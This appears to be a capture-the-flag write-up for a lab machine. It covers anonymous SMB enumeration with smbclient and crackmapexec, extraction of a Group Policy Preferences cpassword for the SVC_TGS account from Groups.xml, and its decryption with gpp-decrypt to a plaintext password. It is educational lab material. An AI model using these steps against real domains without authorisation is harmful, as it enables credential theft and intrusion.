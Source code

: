 
Exposed smb server, anonymous login.

The samba server had these disks listed with  ```smbclient -L```
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------        -------
        ADMIN$                                             NO ACCESS      Remote Admin
        C$                                                      NO ACCESS      Default share
        IPC$                                                   NO ACCESS      Remote IPC
        NETLOGON                                       NO ACCESS      Logon server share 
        Replication                                        READ ONLY
        SYSVOL                                             NO ACCESS       Logon server share 
        Users                                                 NO ACCESS

With further enumeration and spidering was able to extract the following files:
%% (The anonymous spider command: crackmapexec smb 10.10.10.100 -u guest -p "" --share 'Users' -M spider_plus) %%

```json
{
    "Replication": {
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "23 Bytes"
        },
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "119 Bytes"
        },
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "1.07 KB"
        },
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "533 Bytes"
        },
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "2.72 KB"
        },
        "active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "22 Bytes"
        },
        "active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "3.63 KB" 
        }
    }
}
```

The most interesting file is Groups.xml, which contains a hashed password and a username
```
USER:active.htb\SVC_TGS 

HASH:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Group Policy Preferences:

Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features, allowed administrators to modify users and groups across their network.  
An example use case is where a company’s gold image had a weak local administrator password,  and administrators wanted to retrospectively set it to something stronger. The defined password was AES-256 encrypted and stored in Groups.xml. However, at some point in 2012 Microsoft published the AES key on MSDN, meaning that passwords set using GPP are now trivial to crack and considered low hanging fruit.

Cracking the hash with the command  ```gpp-decrypt hash_value```
We get the password:  ```GPPstillStandingStrong2k18```
